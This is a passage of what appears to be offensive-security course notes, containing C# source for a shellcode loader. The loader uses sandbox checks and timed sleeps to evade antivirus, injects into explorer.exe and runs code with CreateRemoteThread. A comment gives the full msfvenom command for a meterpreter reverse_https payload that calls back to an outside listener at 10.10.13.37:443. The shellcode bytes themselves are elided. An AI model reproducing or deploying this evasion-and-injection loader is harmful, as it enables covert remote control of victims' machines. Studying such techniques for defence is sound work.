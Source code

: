 ```csharp

        [DllImport("kernel32.dll")]
        static extern IntPtr GetCurrentProcess();

        public static void Run()
        {
            // Check if we're in a sandbox by calling a rare-emulated API
            IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);
            if (mem == null)
            {
                return;
            }

            // Sleep to evade in-memory scan + check if the emulator did not fast-forward through the sleep instruction
            var rand = new Random();
            uint dream = (uint)rand.Next(10000, 20000);
            double delta = dream / 1000 - 0.5;
            DateTime before = DateTime.Now;
            Sleep(dream);
            if (DateTime.Now.Subtract(before).TotalSeconds < delta)
            {
                Console.WriteLine("Charles, get the rifle out. We're being fucked.");
                return;
            }

            Process[] pList = Process.GetProcessesByName("explorer");
            if (pList.Length == 0)
            {
                // Console.WriteLine("[-] No such process!");
                System.Environment.Exit(1);
            }
            int processId = pList[0].Id;
            // 0x001F0FFF = PROCESS_ALL_ACCESS
            IntPtr hProcess = OpenProcess(0x001F0FFF, false, processId);
            IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);

            // msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.10.13.37 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
            byte[] buf = new byte[???] {
            0x31,0x33,...,0x33,0x37 };

            // XOR-decrypt the shellcode
            for (int i = 0; i < buf.Length; i++)
            {
                buf[i] = (byte)(buf[i] ^ (byte)'a');
            }

            IntPtr outSize;
            WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
            IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
        }
    }
}
```
{% endcode %}
